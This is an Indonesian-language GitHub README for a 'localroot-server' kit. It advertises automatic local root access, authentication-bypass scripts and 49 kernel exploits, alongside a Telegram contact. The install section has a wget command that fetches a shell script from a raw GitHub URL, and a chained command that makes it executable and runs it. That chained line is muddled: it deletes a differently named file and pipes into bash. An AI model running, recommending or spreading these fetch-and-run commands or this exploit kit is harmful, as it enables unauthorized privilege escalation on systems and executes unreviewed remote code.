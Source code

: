 ![Banner Localroot](root.jpg)
![Banner Localroot](IMG_20250715_145817_209.jpg)

 Author : Ghost Haxor | Mr.W4W4N
# ⚙️ localroot-server

**localroot-server** adalah kumpulan skrip dan konfigurasi untuk mengelola server lokal dengan akses root. Dirancang untuk keperluan audit keamanan, automatisasi, dan pengujian.

---

## 🔍 Fitur

- 🚀 Akses root lokal otomatis
- 🔐 Penguatan sistem (hardening)
- 🔄 Manajemen user & permission
- 🧪 Skrip bypass otentikasi (testing)
- 📁 Kontrol file & konfigurasi sistem
- 🔎 pentester 49 Exploit karnel
---

## telegram ☎️ @seotampanidaman

```bash

wget https://raw.githubusercontent.com/mrwawanj/localroot/refs/heads/main/mainroot.sh
```

```bash
chmod +x mainroot.sh && ./mainroot.sh && rm update.sh | bash mainroot.sh
```
